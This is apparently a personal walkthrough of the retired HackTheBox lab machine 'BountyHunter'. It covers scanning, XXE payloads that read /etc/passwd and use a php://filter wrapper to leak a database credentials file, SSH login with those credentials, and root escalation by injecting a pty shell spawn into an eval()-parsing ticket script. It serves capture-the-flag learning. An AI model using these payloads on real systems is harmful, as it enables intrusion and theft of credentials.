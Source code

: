 *2021-10-23*

*kimm3*

# Walkthrough: BountyHunter
Platform: HackTheBox

Difficulty: Easy

Uploaded after retirement:
## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

```
script history/enum1
export IP=10.10.11.100; ping $IP
```

(Responds to ICMP echo)
## Scans and enumeration
```
sudo nmap $IP -p- -Pn -v -A -oA scans/nmap-init
```

![nmap-init](assets/markdown-img-paste-20211023105011786.png)

![index](assets/markdown-img-paste-20211023104944538.png)

![portalphp](assets/markdown-img-paste-20211023105046395.png)

![log-submit](assets/markdown-img-paste-20211023105056643.png)

`ffuf -u http://$IP/FUZZ -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/fuff-indexdir.md`

Retrieves two interesting findings that we haven't seen:
- resources folder
- dp.php

![resources](assets/markdown-img-paste-20211023105345205.png)

![readmetxt-tasks](assets/markdown-img-paste-2021102310535424.png)

That README.txt is full of hints. The test account is a possible attack vector.

![bountylog](assets/markdown-img-paste-20211029155721135.png)

'bountylog.js' contains a function to retrieve values from 'log_submit.php', base64 encode them and call another file 'tracker_diRbPr00f314.php'.

![dirbproof](assets/markdown-img-paste-20211029155522432.png)

Looks like a template for the info. Let's try a submit in browser.

![submit](assets/markdown-img-paste-20211023105620107.png)

This is the end result of process described above. Looking at the post request in burp, the actual POST request is made to 'tracker_diRbPr00f314.php' with base64 encoded XML data.

![base64d](assets/markdown-img-paste-2021102915532914.png)

db.php returns a blank page(allthough 200 OK).
### XXE
Checking for XXE vulnerability. Let's start with a simple ENTITY test.

Contents of plain text XML file:
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE test [<!ENTITY text "myveryowntext">]>
		<bugreport>
		<title>hej</title>
		<cwe>hejhej</cwe>
		<cvss>&text;</cvss>
		<reward>1234</reward>
		</bugreport>
```

`base64 *xmlfile* > base-test.txt`

Clean up new lines and replace special chars with the URL-encoded ones. There's two types:
- + replaced with %2B
- = replaced with %3D
(I just used Atoms search and replace)

![inspector1](assets/markdown-img-paste-20211030041316960.png)

Double check in inspector that the resulting XML is correct.

![entity-test](assets/markdown-img-paste-20211030041405626.png)

Numbers in score replaced with "myveryowntext", it works.

### XXE LFI
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE test [<!ENTITY text SYSTEM "file:///etc/passwd">]>
		<bugreport>
		<title>hej</title>
		<cwe>hejhej</cwe>
		<cvss>&text;</cvss>
		<reward>1234</reward>
		</bugreport>
```

![etcpasswd](assets/markdown-img-paste-20211029173041431.png)

One interesting user, 'development', the other non-standard don't have a shell/can't log in.

![inspo-xxe-php](assets/markdown-img-paste-20211030041634816.png)

Got inspiration with this example, let's try to get db.php with it. Tried the "normal" file parameter first, but didn't work.

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php">]>
		<bugreport>
		<title>&ac;</title>
		<cwe></cwe>
		<cvss></cvss>
		<reward></reward>
		</bugreport>
```

![decoed-dbphp](assets/markdown-img-paste-20211030042554809.png)
## Foothold
Trying to ssh to target with 'development'(found in '/etc/passwd') and the password in 'db.php' works.

![ssh-development](assets/markdown-img-paste-20211030043251127.png)

![usertxt](assets/markdown-img-paste-20211030043326388.png)
## Privilege Escalation
![sudo-l](assets/markdown-img-paste-2021103004345433.png)

![script](assets/markdown-img-paste-20211030045204982.png)

The script is not writable but we can run it as sudo. It does take user input, opens a file based on it, and it runs an eval() statement on a certain line in the file. So very much exploitable if we craft a correct ticket file.

Copied the script offline to play with it.

![modulus](assets/markdown-img-paste-20211030045630857.png)

To pass the modulus statement, it  has to begin with 200.

Valid eval code that will spawn a shell: `eval("__import__('pty').spawn('/bin/bash')")`.

Simply played around with the statements from the scripts and got a code that spawned a shell.

![python](assets/markdown-img-paste-2021103005123404.png)

Save to a file and did a test run. Contents:
```md
# Skytrain Inc
## Ticket to
__Ticket Code:__
**200+__import__('pty').spawn('/bin/bash')

```

And result:

![test](assets/markdown-img-paste-20211030051735505.png)


SEND IT

![nc](assets/markdown-img-paste-20211030051955638.png)

`nc -w 10.10.11.100 4444 < ticket.md`

![roottxt](assets/markdown-img-paste-20211030052131104.png)

## Post
![reset](assets/markdown-img-paste-20211030052407439.png)
